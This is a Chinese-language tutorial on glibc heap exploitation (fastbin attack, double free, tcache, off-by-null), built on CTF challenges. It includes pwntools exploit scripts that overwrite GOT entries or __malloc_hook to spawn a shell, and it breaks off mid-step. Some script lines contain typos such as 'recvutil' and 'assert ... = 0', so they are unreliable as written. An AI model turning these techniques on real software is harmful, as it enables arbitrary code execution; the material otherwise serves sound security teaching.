# 堆漏洞利用

针对堆的攻击方式主要有两种：堆溢出和use after free

- fastbin attack
- fastbin double free
- off by null
- tcache
- IO file
- large bin attack
- unsorted bin attack
- mmap attack
- Scripting exploits with pwntools
- Introspecting the heap with pwndbg
- The Fastbin Dup technique
- The Unsafe Unlink technique
- The Safe Unlink technique
- The Tcache Dup technique
- The House of Force technique
- The House of Orange technique
- The House of Spirit technique
- The House of Lore technique
- The House of Einherjar technique
- The House of Rabbit technique
- Using one-gadgets to drop a shell
- Leveraging a single-byte heap overflow to drop a shell
- Leveraging single null byte overflows for code execution
- The Google Poison Null Byte technique
- Heap Feng Shui


## 堆溢出(heap overflow)

- 缓冲区溢出发生在堆上
- 栈溢出可以直接覆盖函数返回地址控制rip
- 堆的特性导致堆上有更多种利用方式

**实例1**

```
struct NODE
{
	void (*printFunc)(struct NODE *);
	char data[0x18];
};

void printData(struct NODE *n)
{
	printf("the data is %s\n", n->data);
}

int main(int argc, char *argv[])
{
	struct NODE *n1 = (struct NODE *)malloc(sizeof(struct NODE));
	struct NODE *n2 = (struct NODE *)malloc(sizeof(struct NODE));

	memcpy(n2->data, "bbbbbbbb", 8);
	n2->printFunc = (void *)printData;
	n2->printFunc(n2);

	memcpy(n1->data, argv[1], strlen(argv[1]));  // heap overflow
	n2->printFunc(n2);                           // control RIP!!!
	return 0;
}
```

memcpy堆溢出之前：

```
pwndbg> x/14gx 0x230e010-0x10
0x230e000:	0x0000000000000000	0x0000000000000031 \
0x230e010:	0x0000000000000000	0x0000000000000000  | chunk_n1
0x230e020:	0x0000000000000000	0x0000000000000000 /
0x230e030:	0x0000000000000000	0x0000000000000031 \
0x230e040:	0x0000000000400616	0x6262626262626262  | chunk_n2    // 0x0400616 即为 n2->funcPtr
0x230e050:	0x0000000000000000	0x0000000000000000 /
0x230e060:	0x0000000000000000	0x0000000000000411
```

argv[1] = "aaaaaaaaaaaaaa...."，memcpy堆溢出之后：

```
pwndbg> x/14gx 0x230e010-0x10
0x230e000:	0x0000000000000000	0x0000000000000031
0x230e010:	0x0000000000000000	0x6161616161616161
0x230e020:	0x6161616161616161	0x6161616161616161
0x230e030:	0x6161616161616161	0x6161616161616161
0x230e040:	0x6161616161616161	0x6161616161616161
0x230e050:	0x0000000000006161	0x0000000000000000
0x230e060:	0x0000000000000000	0x0000000000000411
pwndbg> p *n2
$2 = {
  printFunc = 0x6161616161616161, 
  data = "aaaaaaaaaa", '\000' <repeats 13 times>
}
```

> 思考这样一个问题，为什么chunk_n2的prev_size和size不合法也可以控制RIP。这是由于该案例比较特殊，结构体包含函数指针，而在调用指针利用时，也没有多余的malloc和free来进行检查，所以不需要特别构造prev_size和size就可以利用成功。

**实例 2**

```
struct NODE
{
	// void (*printFunc)(struct NODE *);
	char data[0x10];
};

int main(int argc, char *argv[])
{
	struct NODE *n1 = (struct NODE *)malloc(sizeof(struct NODE));
	struct NODE *n2 = (struct NODE *)malloc(sizeof(struct NODE));
	free(n2);
	read(0, n1->data, 0x100);                      // heap overflow
	malloc(sizeof(struct NODE));
	struct NODE *newNode = (struct NODE*)malloc(sizeof(struct NODE));
	read(0, newNode->data, 0x10);
	return 0;
}
```

在free(n2)调用之后，第一次read调用之前，堆内存布局如下：

```
pwndbg> x/20gx 0xd5d010-0x10
0xd5d000:	0x0000000000000000	0x0000000000000021 \ chunk_n1
0xd5d010:	0x0000000000000000	0x0000000000000000 /
0xd5d020:	0x0000000000000000	0x0000000000000021 \ freed chunk_n2
0xd5d030: [0x00000000000000]	0x0000000000000000 /                // 方括号处的为fd
0xd5d040:	0x0000000000000000	0x0000000000020fc1
0xd5d050:	0x0000000000000000	0x0000000000000000
0xd5d060:	0x0000000000000000	0x0000000000000000
0xd5d070:	0x0000000000000000	0x0000000000000000
0xd5d080:	0x0000000000000000	0x0000000000000000
0xd5d090:	0x0000000000000000	0x0000000000000000
pwndbg> p main_arena.fastbinsY 
$2 = {0xd5d020, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
pwndbg> 
```

read调用之后，触发溢出，堆内存布局如下：

```
pwndbg> x/20gx 0x1927010-0x10
0x1927000:	0x0000000000000000	0x0000000000000021 \ chunk_n1
0x1927010:	0x6161616161616161	0x6161616161616161 /
0x1927020:	0x6161616161616161	0x0000000000000021 \ freed chunk_n2
0x1927030:	[0x000000deadbeef]	0x0000000000000000 /                // 方括号处的为fd
0x1927040:	0x0000000000000000	0x0000000000020fc1
0x1927050:	0x0000000000000000	0x0000000000000000
0x1927060:	0x0000000000000000	0x0000000000000000
0x1927070:	0x0000000000000000	0x0000000000000000
0x1927080:	0x0000000000000000	0x0000000000000000
0x1927090:	0x0000000000000000	0x0000000000000000
pwndbg> fastbins 
fastbins
0x20: 0xd5d020 ◂— 0xdeadbeef
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
pwndbg> 
```

然后下一个malloc执行后，newNode malloc分配之前，fastbin如下：

```
pwndbg> p main_arena.fastbinsY 
$3 = {0xdeadbeef, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
pwndbg> fastbins 
fastbins
0x20: 0xdeadbeef ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

然后newNode节点将被分配到0xdeadbeef处，再下一步，read调用将可以达到write-anything-somewhere的目的。

	struct NODE *newNode = (struct NODE*)malloc(sizeof(struct NODE));  // get 0xdeadbeef
	read(0, newNode->data, 0x10);                                      // write-anything-somewhere

> 再次思考一个问题，为什么n2的prev_size不合法也可以正常malloc。这是因为prev_size用于在free时用来找前一个chunk地址，这里并没有调用free，所以可以正常malloc


### 堆溢出利用 - fastbin attack

> 上面例子中为何是write-anything-somewhere，而不是write-anything-anywhere?(暂不考虑tcache)。这是因为因为malloc时会对fastbin chunk做检查，检查size是否合法

```
3383         if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
3384         {
3385             errstr = "malloc(): memory corruption (fast)";
3386         errout:
3387             malloc_printerr (check_action, errstr, chunk2mem (victim), av);
3388             return NULL;
3389         }
```

```
1600    /* offset 2 to use otherwise unindexable first 2 bins */
1601    #define fastbin_index(sz) \
1602        ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
```


因此伪造fastbin chunk时，所选的地址是否合适，就是看所选地址是否包含一个合法的size，而对size的检查就是依据上面的宏定义，取4字节的size，并做移位运算以对齐，这样寻找合适的地址有很大灵活性：
- 只需控制victim的size满足判断
- unsigned int只取4个byte，因此伪造时不用满足8个byte
- 因为>>, 伪造时也不需要对齐

例如下面列出的几个数据，都可作为合法size用来伪造相应的fastbin chunk

```
>>> (ctypes.c_uint32(0x71).value >> 4) - 2
5L
>>> (ctypes.c_uint32(0x7f).value >> 4) - 2
5L
>>> (ctypes.c_uint32(0x123456780000007f).value >> 4) - 2
5L
>>> 
```


## fastbin attack

- fastbin利用技术
     - Fast bin为单向链表，结构简单，容易伪造
     - 为了提高效率，安全检查少
     - 只针对Fast bin大小的chunk，small/large chunk不适用
- 利用思路
     - 空闲fast chunk如果发生溢出被覆盖，则链表指针fd可以被修改
     - 可以通过修改链表指针fd，在Fast bin链表中引入伪造的空闲Fast chunk
     - 下次分配时分配出伪造的Fast chunk
     - 伪造的Fast chunk可以在.bss全局变量处，也可以在栈上





## 伪造Fast chunk

- 在栈上伪造Fast chunk
     - 覆盖返回地址
- 在bss上伪造Fast chunk
     - 修改全局变量
- 在堆上伪造Fast chunk
     - 修改堆上数据


## 堆溢出利用的本质

  - 寻找可以被利用的结构体，经过堆风水，用堆溢出更改结构体，进而实现information leak或memory corruption，对于CTF而言套路性较强。
    
    > 针对栈溢出漏洞，如果使用了安全函数。栈使用strcpy_s等函数，比较难利用
    > 但是到了堆上，由于堆的实现比较复杂，利用方式也就相对比较多，有uaf、doublefree等利用方式


## Use After Free(UAF)

一块堆内存在释放后被重新使用，重新使用时，内存中的数据已经发生了变化，造成非预期的结果









- UAF利用 - fastbin double free
        fastbin double free能够成功利用主要有两部分原因:
    - fastbin的堆块被释放后next_chunk的pre_inuse位不会被清空
    - fastbin在执行free的时候仅验证了main_arena直接指向的块，即链表指针头部的块。对于链表后面的块，并没有进行验证。
      - 新释放的chunk不在链表头部即可
      - 新释放的chunk大小和当前链大小一致










​    libc 2.26之前的版本，即不考虑tcache，情况下，连续free两次会报错，就因为有前面这个链表头校验，表现为:

   - free(a),free(a), 报错
   - free(a),free(b),free(a), 不会报错


## tcache简介

- tcache出现在glibc2.26(Ubuntu17.10)之后
- 第一次malloc时，会先malloc一块内存放在堆头，存在tcache的一些结构体
- small bin范围大小内的chunk都会使用tcache，行为几乎和fastbin类似，但每个tcache链上最多只能有7个bin
- 2.29之前的tcache在malloc时没有任何检查，free时没有double free检查
- malloc时没有检测，不需要伪造size，从fastbin attack的write-anything-somewhere升级为write-anything-anywhere 
  (大小和smallbin一样，相当于没有任何检查的fastbin，连续free没有检查，malloc也没有size检查)



## 案例

### 案例分析：freenote (0ctf 2015)修改版

https://github.com/f1yyy/example_for_class.git

**代码分析**

详细参考附件源码

- 四种操作
  new note - malloc
  edit note - realloc
  delete note - 未检查note是否释放，可以触发double free
  list note - 打印

- note结构
  note_list结构存储了note最大数，inuse_note数量，长度为256的notes数组
  note结构存储了inuse标志，note内容大小和指针
  初始化时分配了NOTENUM(256)个note

- 创建note - new_note()
  创建note时先读入note内容长度(不能超过4096)，然后再通过malloc上在堆上分配相同大小的内存。读入内容后，将指针和大小保存在notes数组当中空闲的(inuse为0)note结构中(从0到255开始搜索)。
  通过此功能可以任意创建fast/small/large chunk。

- 修改node - edit_note()
  修改note时，需要指定note编号，并指定新note大小，如果大小发生变化，则调用realloc重新分配内存。

- 删除note - delete_note()
  删除note时，只需指定note序号，然而再删除note时，并没有检查对应的notes[n]的inuse标志是否为1，而且删除note后并未清空note结构中的内容指针，因此可以对任意空闲的note做多次free。
  此处存在double free漏洞。

- 打印note列表 - list_note()
  打印note功能可以列出所有note的内容。(list_note可以用来泄露信息)

**方法1: 在堆上伪造fastchunk**













> 第三步 泄露0x1813820,得到堆基址，就可以通过偏移计算得到管理结构地址

fd本来指向18138a0,改成了heap+0x80，指向伪造堆头位置，
再申请的时候会把伪造的堆申请回去。示例中这里写的内容是H，到这里就停止了，实际上这里我们已经有了触发任意地址读写的能力，比如这里我们可以在note_list里伪造合法node节点，inuse设为1，指针指向我们想写的地址，就可以任意地址写，例如进一步改GOT表或栈指针，都可以成功利用。

**方法2：__realloc_hook处伪造fastchunk**


Glibc全局变量 `__realloc_hook` 附近可以伪造0x70大小的fast chunk，然后可以通过修改 `__relloc_hook` 即可以劫持realloc












> 释放后放到unsorted bin
> main_area地址，根据偏移可以计算libc基址，进一步计算`__realloc_hook`地址
> `realloc hook-0x1b`
> 类似的，也可以改 __alloc_hook


### 实战堆溢出 - 网鼎杯2018 pesp

题目地址：http://github.com/bash-c/public_class_examples

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *heap_func_ptrs; // [rsp+8h] [rbp-18h]
  char buf[8]; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  heap_func_ptrs = malloc(0x10uLL);
  *heap_func_ptrs = hello_message;
  heap_func_ptrs[1] = goodbye_message;
  ((void (__fastcall *)(signed __int64, _QWORD))*heap_func_ptrs)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, buf, 8uLL);
    switch ( atoi(buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        ((void (__fastcall *)(char *, char *))heap_func_ptrs[1])(buf, buf);// func pointer
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

```
void add_item()
{
  signed int i; // [rsp+4h] [rbp-1Ch]
  int len; // [rsp+8h] [rbp-18h]
  char buf[8]; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  if ( num > 99 )
  {
    puts("the team is full");
  }
  else
  {
    printf("Please enter the length of servant name:");
    read(0, buf, 8uLL);
    len = atoi(buf);
    if ( len )
    {
      for ( i = 0; i <= 99; ++i )
      {
        if ( !itemlist[i].cont )
        {
          itemlist[i].size = len;
          itemlist[i].cont = (char *)malloc(len);
          printf("Please enter the name of servant:");
          itemlist[i].cont[(signed int)read(0, itemlist[i].cont, len)] = 0;// off by null
          ++num;
          return;
        }
      }
    }
    else
    {
      puts("invaild length");
    }
  }
}
```

```
void remove_item()
{
  int idx; // [rsp+Ch] [rbp-14h]
  char buf[8]; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( num )
  {
    printf("Please enter the index of servant:");
    read(0, buf, 8uLL);
    idx = atoi(buf);
    if ( itemlist[idx].cont )
    {
      free(itemlist[idx].cont);
      itemlist[idx].cont = 0LL;
      itemlist[idx].size = 0;
      puts("remove successful!!");
      --num;
    }
    else
    {
      puts("invaild index");
    }
  }
  else
  {
    puts("No servant in the team");
  }
}
```

在IDA中分析程序逻辑，发现一些问题和细节：

   - add_item()函数中有个off by null，末尾0字节溢出漏洞
   - change_item()函数中有堆溢出漏洞
   - remove_item()有指针置零操作，避免了double free问题，不存在问题

#### 方法1：fastbin attack

  - 使用heap overflow更改fd实现write-anything-somewhere
  - 选择写GOT表，通过更改free@GOT为printf，利用格式化字符串漏洞leak libc
  - 通过程序的edit功能继续更改free@GOT为system
  - free("/bin/sh")->system("/bin/sh")











- 调试细节

仅用堆溢出解决。
题目提供了glibc2.23，因此配置glibc2.23环境，这里起个glic2.23的docker
先看下二进制的保护措施：

```
$ checksec pwn
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PID: No PIE (0x400000)
```

**STEP1** 基本交互接口实现
技巧: 开左右两个窗口，左边运行目标程序，依次运行各个交互输入输出，右边写exploit，分别将输入输出通过python实现接口函数。同样在调试的时候，也可以左边运行gdb附加目标进程进行调试，右边修改调试和运行exploit脚本。脚本中关键的地方可以通过pause()或者raw_input()来实现暂停，用来配合gdb一步步调试。





>
> 注意上面有的地方用了sendafter而不用sendlineafter，是因为目标程序使用了read函数接受输入，会读入换行符\n，产生干扰，所以用send，所以也需要sleep一下把前后两个数据包隔开，以免发送的时候前后两个数据包被合在一起出现粘包问题

脚本框架实现如下：

```
#!/usr/bin/env python

# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.log_level = "critical"
context.binary = "./pwn"
elf = context.binary
libc = elf.libc

def show():
    io.sendlineafter(":", "1")

def add(length, name):
    io.sendlineafter(":", "2")
    io.sendlineafter(":", str(length))
    io.sendafter(":", name)
    sleep(0.01)

def edit(idx, length, name):
    io.sendlineafter(":", "3")
    io.sendlineafter(":", str(idx))
    io.sendlineafter(":", str(length))
    io.sendafter(":", name)
    sleep(0.01)

def delete(idx):
    io.sendlineafter(":", "4")
    io.sendlineafter(":", str(idx))

io = process("./pwn")

# 具体触发利用代码实现...

io.interactive()
```

**STEP2** 触发漏洞并开始调试
实现了基本交互接口之后，再来调用接口触发漏洞利用。
首先创建小的堆块，让在fastbin范围内，然后把第二个堆块free掉，调用edit接口写入超长字符串，触发溢出，覆盖第二个堆块的数据:

```
add(0x50, '000000')
add(0x50, '111111')
delete(1)
pause()
edit(0, 0x100, 'R' * 0x100)
```

技巧：运行脚本，脚本中运行到pause暂停，这时候进行gdb附加进程，一般步骤是要先看下目标进程pid，再gdb附加，再设置断点并运行，也可以运行如下命令快速附加目标进程并断点：

```
gdb -q -p `pidof pwn` -ex "*0x40BC05" -ex "c"
```

这时候看下堆的情况，前面的小的堆，是程序前面用来存储hello_message和goodbye_message指针的，在本解题思路中可以忽略，只看我们构造的堆分配和释放情况。通过pwndbg和libheap等gdb插件，可以方便的查看heapbase、fastbin链、got表，可以大大方便调试效率。

```
pwndbg> heapbase # 查看heapbase地址，这里为0x98f000
pwndbg> x/40gx 0x98f000 # 查看堆分配情况
pwndbg> fastbins # 查看fastbin链
pwndbg> p main_area.fastbinsY # 查看fastbin
```



**STEP3 **修改脚本的edit操作，计算一下到第二个堆块fd指针的距离，构造合法的size，改成0xdeadbeef指针，尝试覆盖fd指针为0xdeadbeef，再次附加调试，并查看fastbin，可以看到已经指到0xdeadbeef上。
然后连续两次分配就可以将0xdeadbeef地址分配出来。

```
add(0x50, '000000')
add(0x50, '111111')
delete(1)
pause()
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0xdeadbeef))
add(0x50, 'xxxxxxxx')
add(0x50, 'xxxxxxxx')
```

技巧：在编写exploit时，通常要在定长buf中按计算好的偏移插入一个指针，用pwntools的flat()函数可以比较方便的完成这一操作，而不需要特意再计算剩余buf长度。

```
pwndbg> heapbase # 查看heapbase地址，这次变为0xaa7000
pwndbg> x/40gx 0xaa7000 # 查看堆分配情况，fd被覆盖成0xdeadbeef
pwndbg> fastbins # 查看fastbin链，指向0xdeadbeef
```



**STEP4** 查看GOT表，查找合适的地址，尝试将fastbin chunk伪造到附近，用于覆写GOT表。
前面0xdeadbeef不是一个合法地址，现在看下哪里可以改，通过checksec命令，看到可以改got，可以把free覆写成system，再通过调用free("/bin/sh")就可以执行shell。
然后看下附近有没有合法的size可以供利用，只要找任意四字节满足条件就可以。发现一个0x60，和0x50在同一个chunk里，是可以用的，把地址0x601ffa记下

```
pwndbg> checksec # 查看保护情况，确定GOT是否可写
pwndbg> got # 查看GOT表，其中free@GOT地址为0x682018
pwndbg> x/40gx 0x682018-0x40 # 查看free@GOT附近内存，查找是否有合适的size伪造chunk
...
0x601ff8: 0x0000000000000000 0x0000000000601e28 # 注意这里的0x60作size合适
0x602008: 0x00007f5b4cbe4168 0x00007f5b4c9d4ee0
...
pwndbg> x/4gx 0x601ffa # 找到了合适的伪造chunk地址，注意这里选的地址不必对齐
0x601ffa: 0x1e28000000000000 0x4168000000000060
0x60200a: 0x4ee000007f5b4cbe 0x74f000007f5b4c9d
```





改下脚本，将前面0xdeadbeef改成0x601ffa，然后连续两次malloc就可以分配到目标地址。

```
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
```

再次附加调试，查看fastbin链是否成功链到got表

```
pwndbg> heapbase # 查看heapbase地址，这次变为0x7cf008
pwndbg> x/40gx 0x7cf008 # 查看堆分配情况，fd被覆盖成0x601ffa
pwndbg> fastbins # 查看fastbin链，从 0x7cf080 指向 0x601ffa
pwndbg> x/4gx 0x7cf080 # 查看第一个free chunk，0x7cf080
pwndbg> x/4gx 0x601ffa # 查看第二个free chunk，0x601ffa，也就是我们构造chunk
pwndbg> got # 查看got
```





**STEP5** 修改脚本并运行，并附加调试，断点在add_item()函数上，单步跟踪两次malloc分配，并查看got，发现被成功覆写

```
add(0x50, '000000')
add(0x50, '111111')
delete(1)
pause()
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, cyclic(n = 8, length = 0x30))
```

```
pwndbg> b add_item # 断点调试
pwndbg> ni # 单步调试
pwndbg> got # 查看GOT表，free@GOT等已经成功被覆盖为目标地址
```



**STEP6** 计算分配地址到free的got表偏移，并覆写为printf地址用于leak libc
分配到目标地址后，就可以往这个地址往后写数据。需精确计算一下覆写偏移并修改脚本，现在我们还不知道system的地址，因此如果要覆写成system，首先需要leak libc，所以需要先把free改成printf地址，就可以构造出格式化字符串漏洞，调用free("%p")就相当于调用printf("%p")，使用格式化字符串漏洞进行leak是比较方便的。

```
add(0x50, '000000')
add(0x50, '111111')
add(0x50, '%p')
delete(1)
pause()
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, flat('\0' * 14, elf.sym['printf']))
delete(2)
```

运行脚本尝试覆写为printf地址时，程序报错了，看了下原来是off by null问题，把后面的puts的got表给改掉了，导致报错，这里由于是64位指针，所以只需写满6字节就可以了，不用写满8字节，这样就可以避免off by null的影响。

```
pwndbg> stack 20 # 查看栈，找到指向__libc_start_main地址的栈地址
...
0b:0858| 0x7ffe9d15ea58 -> 0x7f6253899830 (__libc_start_main+240) # 打出0x7ffe9d15ea58地址处值就可以
...
pwndbg> fntarg 0x7ffe9d15ea58
The index of format argument: 17 # 构造printf格式化参数，printf("%17$p")的时候就可以把目标地址打印出来
pwndbg> xinfo 0x7f6253899830 # 查看虚拟地址对应的偏移量，这里查到是0x20830
```



根据以上信息，修改脚本如下，运行脚本，获取到libc地址

```
add(0x50, '000000')
add(0x50, '111111')
add(0x50, '.%17$p.') # 注意这里的技巧，两个.用来方便标示和截取地址
delete(1)
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[: 6]) # 只需写满6字节，避免off by null的影响
pause()
delete(2) # 触发free(".%17sp.")，实际就是调用printf(".%17sp.")
io.recvutil('.')
libc.address = int(io.recvutil('.', drop = True), 16) - 0x20830 # 减去上面查到的偏移量0x20830
print('libc @ {:0x}'.format(libc.address))
assert libc.address & 0xfff == 0
```

**STEP7** 编辑节点，覆写free@GOT为system
先确定下目标节点的下标

```
pwndbg> telescope 0x6020C0
pwndbg> telescope 0x6020C0 20
```

可以看到改第3个结构体就可以改free got，同样也只发送6字节避免off by null影响。

```
edit(3, 0x50, flat('\0' * 14, flat(elf.sym['system'])[: 6])
```

```
pwndbg> got
```

运行并调试查看got表，已经被覆盖成system

**STEP8** 新增节点，构造/bin/sh参数，并调用

```
add(0x50, '000000')
add(0x50, '111111')
add(0x50, '.%17sp.') # 注意这里的技巧，两个.用来方便标示和截取地址
delete(1)
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[: 6]) # 只需写满6字节，避免off by null的影响
delete(2) # 触发free(".%17sp.")，实际就是调用printf(".%17sp.")
io.recvutil('.')
libc.address = int(io.recvutil('.', drop = True), 16) - 0x20830 # 减去上面查到的偏移量0x20830
print('libc @ {:0x}'.format(libc.address))
assert libc.address & 0xfff == 0
edit(3, 0x50, flat('\0' * 14, flat(elf.sym['system'])[: 6])
add(0x10, "/bin/sh\0")
delete(4)
```


#### 方法2: off-by-null

  - 假设没有arbitrary heap overflow，并且程序开启了PIE，只利用off-by-null完成利用
  - off-by-null的利用可以参考 http://devel0pment.de/?p=688

  **步骤概述**

  - 先申请四个chunk，其中chunk_BBB用来触发off-by-null漏洞覆盖chunk_CCC的P位(previous in use)，同时把CCC的prev_size改为sizeof(chunk_AAA) + sizeof(chunk_BBB)

  - off-by-null发生时，chunk_CCC的P位清零，通过释放chunk_CCC触发chunk_AAA和chunk_CCC合并为一个大的bin，此时chunk_BBB被overlap

  - chunk_DDD用来防止bin和top_chunk合并

    

    

    


  - free chunk_AAA
    (思考：为什么要先free chunk_AAA ? 因为要触发unlink，先free chunk_AAA是为了构造unlink的条件，具体参考unlink资料)

  - 触发chunk_BBB的off-by-null,修改chunk_CCC的P位

  - free chunk_CCC，chunk_BBB被overlap (即chunk_BBB实际上没有被free，但处于先前有chunk AAA和chunk_CCC合并的free chunk当中)

    

  - 申请一定大小的chunk_EEE, chunk_EEE会从上一步的free chunk中分割出来，分割后，对应的FD和BK会落入到chunk_BBB中。 —— Leak libc!
    (这里chunk_BBB实际上没有被free，可以打印其中的fd，也就能leak libc)

    

  - 在通过一次overlap chunk更改free'd chunk的fd，因为开启了pie，因此选择写libc.sym["__malloc_hook"] - 0x23，后续通过更改__*_hook为one_gadget完成利用。

  **Trick:**

  - 通过__realloc_hook做跳板满足one_gadget的条件
  - 或者通过报错时的malloc满足one_gadget的条件




**调试细节**

提高难度，假设开启PIE，没有堆溢出，只利用off-by-null解决

**STEP1**  同样要先实现基本的增删改查包装函数，前面解法1已经实现过了，拿过来用就行，这部分忽略，直接讲利用。
先通过添加4个节点申请4块堆内存，并用chunk 1触发off by null

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
pause()
edit(1, 0x68, flat('1' * 0x68)) # 0x68是因为glibc为节省内存写了下一个chunk的prev_size
```

运行脚本并gdb附加调试，脚本pause时，先看下节点的堆内存布局

```
gdb -q -p `pidof pwn` -ex "*0x40BC05" -ex "c"
pwndbg> heapbase # 查看heapbase地址，这里为0xbec000
pwndbg> x/90gx 0xbec000 # 查看堆分配情况
```


**STEP2**  编辑脚本，通过单字节溢出把下一个chunk的P位清0，另外把prev_size改成前两个chunk相加，这样可以保证free触发unlink的合并，先free'0'节点，再free'2'节点。
这一过程细节可以网上查free资料，或带源码调试。

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
pause()
delete(2)
```

因为第一个已经free了，所以这两个合并是可以通过unlink检查。0，1，2都被合并，但1是没有free的，被overlap掉

**STEP3**  然后分配一个合适大小的chunk，使得它的fd、bk能够落在中间被overlap掉的chunk里，这样就可以将它们的值打印出来

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)
```

**STEP4**  打印fd指针leak libc

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(io.recvutil('\x7f')[-6:] + '\0\0') - 0x3c4b78
printf('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff = 0
add(0x160, '4' * 160)
```


> 注1：计算libc.address时，这里的偏移量0x3c4b78和方法1中获取方式一样，通过xinfo命令可以查出
> pwndbg> xinfo 0x00007fe0380f0b78
>
> 注2: 上面最后增加了一个节点，因为前面新增节点后，剩余的还有0x171大小的chunk，这时是在unsorted bin中，我们把他申请回来，大小为0x160，以免影响后面的操作：

**STEP5** 继续编写脚本(这一步没看太清楚，待实践)

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(io.recvutil('\x7f')[-6:] + '\0\0') - 0x3c4b78
printf('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff = 0
add(0x160, '4' * 160)

add(0xf8, 'a' * 0xf8)
add(0x68, 'b' * 0x68) # trigger off-by-null
add(0xf8, 'c' * 0xf8)
add(0x18, 'd' * 0x18)
pause()
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)

pwndbg> telescope 0x6820C0 20
```


**STEP6** 继续编写脚本

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(io.recvutil('\x7f')[-6:] + '\0\0') - 0x3c4b78
printf('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff = 0
add(0x160, '4' * 160)

add(0xf8, 'a' * 0xf8)
add(0x68, 'b' * 0x68) # trigger off-by-null
add(0xf8, 'c' * 0xf8)
add(0x18, 'd' * 0x18)
pause()
delete(4)
edit(5, 0x68, flat('b' * 0x60, 0x170))
delete(6)
delete(5) # 把bbb也要free掉，这样其中的fd、bk有意义，起作用

pwndbg> x/90gx 0x21812b0 # 查看堆布局
pwndbg> fastbins # delete(5)后，对应的fastbin chunk在0x21813b0上
```





**STEP7** 空闲的unsort bin大小是0x271，现在malloc两次就能把这个malloc回来

```
add(0xf8, '0' * 0xf8)
add(0x68, '1' * 0x68) # trigger off-by-null
add(0xf8, '2' * 0xf8)
add(0x18, '3' * 0x18)
delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
pause()
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(io.recvutil('\x7f')[-6:] + '\0\0') - 0x3c4b78
printf('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff = 0
add(0x160, '4' * 160)

add(0xf8, 'a' * 0xf8)
add(0x68, 'b' * 0x68) # trigger off-by-null
add(0xf8, 'c' * 0xf8)
add(0x18, 'd' * 0x18)
pause()
delete(4)
edit(5, 0x68, flat('b' * 0x60, 0x170))
delete(6)
delete(5)

pause()
#add(0x120, flat(cyclic(n = 8, length = 0x120)))
add(0x120, flat('a' * 256, 0xdeadbeef))

pwndbg> fastbins # 对应的fastbin chunk链在0x19cd3b0上再连到0xdeadbeef上，经过两次malloc分配可以分配到指定地址
```



**STEP8** 现在需要计算下偏移，偏移为256，注意因为是size，还要减8所以是248
之前没开pie，可以改写got，现在假设开了pie，可以改__malloc_hook

```
